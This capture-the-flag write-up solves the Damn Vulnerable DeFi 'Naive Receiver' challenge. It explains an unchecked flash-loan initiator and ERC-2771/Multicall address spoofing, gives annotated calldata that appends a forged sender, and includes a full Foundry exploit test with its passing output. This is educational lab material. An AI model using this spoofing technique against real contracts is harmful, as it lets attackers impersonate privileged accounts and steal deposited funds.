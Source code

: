 # Challenge - Naive Receiver

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract.

A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.

## Objective of CTF

All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.

## Vulnerability Analysis

### Root Cause 1: Untrusted Flashloan Initiator

The `onFlashLoan` function in the `FlashLoanReceiver` contract is an implementation of the `IERC3156FlashBorrower` interface. However, in this implementation, the `initiator` and `data` parameters are completely ignored. Additionally, the function lacks any restrictions on who can initiate the flash loan.

Since there are no restrictions on who can initiate flash loans, and each flash loan incurs a fixed fee of 1 WETH, an attacker can continuously initiate flash loans on behalf of the `FlashLoanReceiver` contract. This process will eventually drain all the WETH from the `FlashLoanReceiver` contract.

The prototype for the `onFlashLoan` function in the `IERC3156FlashBorrower` interface is:

```solidity
function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data) external returns (bytes32);
```

The implementation of the `onFlashLoan` function in the `FlashLoanReceiver` contract is as follows:

```solidity
function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata) external returns (bytes32){
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

    uint256 amountToBeRepaid;
    unchecked {
        amountToBeRepaid = amount + fee;
    }

    _executeActionDuringFlashLoan();

    // Return funds to pool
    WETH(payable(token)).approve(pool, amountToBeRepaid);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

### Root Cause 2: Arbitrary Address Spoofing

#### Quick Overview:

Contracts that implement both Multicall and ERC-2771 are vulnerable to address spoofing. An attacker can exploit this by wrapping malicious calldata in a forwarded request, using Multicall's `delegatecall` to manipulate the `_msgSender()` resolution in subsequent calls.

#### Demonstration

The `NaiveReceiverPool` contract supports meta-transactions (ERC-2771) and designates the `BasicForwarder` contract as a trusted forwarder. When interacting with `NaiveReceiverPool` via meta-transactions, the forwarder sends transactions on behalf of the user. However, in this context, the `msg.sender` during the transaction becomes the forwarder. To preserve the original user address, the forwarder appends the user's address to the end of the user's request data, i.e. `request.data`, as shown in the following code snippet:

```solidity
bytes memory payload = abi.encodePacked(request.data, request.from);
```

When `NaiveReceiverPool` needs to retrieve the actual user address (the "real" `msg.sender`), it does so using the `_msgSender()` function. This function is designed to reconstruct the original user address as follows:

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

In this function, if `msg.sender` is the trusted forwarder and `msg.data` is at least 20 bytes long (indicating that the user’s address has been correctly appended), it extracts the last 20 bytes of `msg.data` to retrieve the original user address. If these conditions are not met, it defaults to the parent contract’s `_msgSender()` method, which returns the standard `msg.sender`.

Do you see the potential vulnerability? When interacting with the `NaiveReceiverPool` contract through the forwarder, the `_msgSender()` function returns the last 20 bytes of `msg.data` as the user’s address, which is the "real" `msg.sender`.

Next, we'll explore how to use `multicall` to inject an arbitrary address and deceive the `_msgSender()` function.

Here is the `multicall` code snippet:

```solidity
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
    results = new bytes[](data.length);
    for (uint256 i = 0; i < data.length; i++) {
        results[i] = Address.functionDelegateCall(address(this), data[i]);
    }
    return results;
}
```

This function allows multiple function calls to be executed in a single transaction. It takes an array of encoded function calls as input and executes each call using `functionDelegateCall`, returning an array of results.

Our objective is to impersonate the `feeReceiver` and call `withdraw()` in `NaiveReceiverPool` contract. The `withdraw` function is as follows:

```solidity
function withdraw(uint256 amount, address payable receiver) external {
    // Reduce deposits
    deposits[_msgSender()] -= amount;
    totalDeposits -= amount;

    // Transfer ETH to designated receiver
    weth.transfer(receiver, amount);
}
```

Here is our attack flow:

<img src="https://7795250.fs1.hubspotusercontent-na1.net/hub/7795250/hubfs/image-png-Dec-07-2023-07-22-47-6921-PM.png?width=2670&height=2135&name=image-png-Dec-07-2023-07-22-47-6921-PM.png" alt="Attack Flow Diagram" width="50%" />

> [!NOTE]
> This diagram is sourced from OpenZeppelin's blog [post](https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure#fbbbdc1e-1d3f-4214-9e8b-54c476486820).

We can craft a malicious calldata for the forwarder to execute on our behalf. This calldata will invoke the `multicall` function in the `NaiveReceiverPool` contract. Within the `multicall` function, we will inject the `feeCollector` address into the `withdraw` function call in the `NaiveReceiverPool` contract.

Here is how we inject the `feeCollector` address into the `withdraw` function call:

The original calldata before injecting the feeCollector address

```
0xac9650d8                                                       -> multicall(bytes[]) signature
0000000000000000000000000000000000000000000000000000000000000020 -> bytes[] offset
0000000000000000000000000000000000000000000000000000000000000001 -> length of the array
0000000000000000000000000000000000000000000000000000000000000020 -> bytes[1] offset
0000000000000000000000000000000000000000000000000000000000000044 -> length of the bytes[1] in hexadecimal
00f714ce                                                         -> withdraw(uint256,address) signature
000000000000000000000000000000000000000000000036c090d0ca68880000 -> 1010 ether in hexadecimal
00000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305C -> player address
```

This calldata represents a `multicall` that will invoke the `withdraw()` function with two parameters: the `amount` to withdraw (1010 ether) and the `recipient` address (player address). The ABI encoding length for `bytes[1]` is 68 bytes (0x44 in hexadecimal), which is the length of the first element in the `bytes[]` array

To inject the `feeCollector` address, we'll modify the calldata as follows:

```
0xac9650d8
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000001
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000058 -> change to 0x58 due to the extra 20 bytes
00f714ce
000000000000000000000000000000000000000000000036c090d0ca68880000
00000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305C
aE0bDc4eEAC5E950B67C6819B118761CaAF61946                         -> append the feeCollector address
```

Explanation:

1. **Length Adjustment**: We modify the calldata length from 68 bytes (0x44) to 88 bytes (0x58) to accommodate the extra 20 bytes needed for the `feeCollector` address.
2. **Appending the `feeCollector` Address**: By appending the `feeCollector` address at the end of the calldata, we trick the `_msgSender()` function into interpreting this address as the original sender. This allows us to withdraw funds as if we were the `feeCollector`.

### Attack steps:

1. Exhaust the WETH in the `receiver` contract by initiating a flash loan. At this point, the `NaiveReceiverPool` should contain 1,010 WETH.
2. Craft a malicious calldata to impersonate the `feeCollector` and invoke the `withdraw` function in the `NaiveReceiverPool` contract, thereby withdrawing all WETH and transferring it to the `player`.
3. Transfer all WETH from the `player` to the `recovery`.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {NaiveReceiverPool, Multicall, WETH} from "../../src/naive-receiver/NaiveReceiverPool.sol";
import {FlashLoanReceiver} from "../../src/naive-receiver/FlashLoanReceiver.sol";
import {BasicForwarder} from "../../src/naive-receiver/BasicForwarder.sol";

contract NaiveReceiverChallenge is Test {
    address deployer = makeAddr("deployer");
    address recovery = makeAddr("recovery");
    address player;
    uint256 playerPk;

    uint256 constant WETH_IN_POOL = 1000e18;
    uint256 constant WETH_IN_RECEIVER = 10e18;

    NaiveReceiverPool pool;
    WETH weth;
    FlashLoanReceiver receiver;
    BasicForwarder forwarder;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        (player, playerPk) = makeAddrAndKey("player");
        startHoax(deployer);

        // Deploy WETH
        weth = new WETH();

        // Deploy forwarder
        forwarder = new BasicForwarder();

        // Deploy pool and fund with ETH
        pool = new NaiveReceiverPool{value: WETH_IN_POOL}(address(forwarder), payable(weth), deployer);

        // Deploy flashloan receiver contract and fund it with some initial WETH
        receiver = new FlashLoanReceiver(address(pool));
        weth.deposit{value: WETH_IN_RECEIVER}();
        weth.transfer(address(receiver), WETH_IN_RECEIVER);

        vm.stopPrank();
    }

    function test_assertInitialState() public {
        // Check initial balances
        assertEq(weth.balanceOf(address(pool)), WETH_IN_POOL);
        assertEq(weth.balanceOf(address(receiver)), WETH_IN_RECEIVER);

        // Check pool config
        assertEq(pool.maxFlashLoan(address(weth)), WETH_IN_POOL);
        assertEq(pool.flashFee(address(weth), 0), 1 ether);
        assertEq(pool.feeReceiver(), deployer);

        // Cannot call receiver
        vm.expectRevert(0x48f5c3ed);
        receiver.onFlashLoan(
            deployer,
            address(weth), // token
            WETH_IN_RECEIVER, // amount
            1 ether, // fee
            bytes("") // data
        );
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_naiveReceiver() public checkSolvedByPlayer {
        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint("WETH balance in the receiver", weth.balanceOf(address(receiver)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the pool contract", weth.balanceOf(address(pool)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the recovery", weth.balanceOf(address(recovery)), weth.decimals());

        // Executing flashloan without the user's consent
        // This will exhaust all WETH in the receiver contract.
        for (uint256 i; i < 10; ++i) {
            pool.flashLoan(receiver, address(weth), 1 ether, hex"");
        }

        // spoof as the deployer to withdraw all WETH tokens to the player
        // craft a calldata to bypass _msgSender and achieve arbitrary address spoofing
        //ac9650d8                                                         -> multicall(bytes[]) signature
        //0000000000000000000000000000000000000000000000000000000000000020 -> bytes[] offset
        //0000000000000000000000000000000000000000000000000000000000000001 -> length of the array
        //0000000000000000000000000000000000000000000000000000000000000020 -> bytes[1] offset
        //0000000000000000000000000000000000000000000000000000000000000058 -> length of the bytes[1]
        //00f714ce                                                         -> withdraw(uint256,address) signature
        //000000000000000000000000000000000000000000000036c090d0ca68880000 -> 1010 ether in hexadecimal
        //00000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305C -> player address
        //aE0bDc4eEAC5E950B67C6819B118761CaAF61946                         -> feeCollector address

        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: gasleft(),
            nonce: 0,
            data: hex"ac9650d8000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000005800f714ce000000000000000000000000000000000000000000000036c090d0ca6888000000000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305CaE0bDc4eEAC5E950B67C6819B118761CaAF61946",
            deadline: block.timestamp
        });

        bytes32 digest =
            keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(request)));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        // execute ----> multicall ---> withdraw
        forwarder.execute(request, signature);

        // transfer all WETH to the recovery address
        weth.transfer(recovery, 1010 ether);

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint("WETH balance in the receiver", weth.balanceOf(address(receiver)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the pool contract", weth.balanceOf(address(pool)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the recovery", weth.balanceOf(address(recovery)), weth.decimals());
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Player must have executed two or less transactions
        assertLe(vm.getNonce(player), 2);

        // The flashloan receiver contract has been emptied
        assertEq(weth.balanceOf(address(receiver)), 0, "Unexpected balance in receiver contract");

        // Pool is empty too
        assertEq(weth.balanceOf(address(pool)), 0, "Unexpected balance in pool");

        // All funds sent to recovery account
        assertEq(weth.balanceOf(recovery), WETH_IN_POOL + WETH_IN_RECEIVER, "Not enough WETH in recovery account");
    }
}
```

### Test Result

```
Ran 2 tests for test/naive-receiver/NaiveReceiver.t.sol:NaiveReceiverChallenge
[PASS] test_assertInitialState() (gas: 34878)
[PASS] test_naiveReceiver() (gas: 432056)
Logs:
  -------------------------- Before exploit --------------------------
  WETH balance in the receiver: 10.000000000000000000
  WETH balance in the pool contract: 1000.000000000000000000
  WETH balance in the recovery: 0.000000000000000000
  -------------------------- After exploit --------------------------
  WETH balance in the receiver: 0.000000000000000000
  WETH balance in the pool contract: 0.000000000000000000
  WETH balance in the recovery: 1010.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 8.54ms (2.26ms CPU time)

Ran 1 test suite in 261.32ms (8.54ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```

## References

1. https://www.rareskills.io/post/erc-3156
2. https://www.rareskills.io/post/abi-encoding
3. https://docs.soliditylang.org/en/latest/abi-spec.html
4. https://www.alchemy.com/overviews/meta-transactions
5. https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure
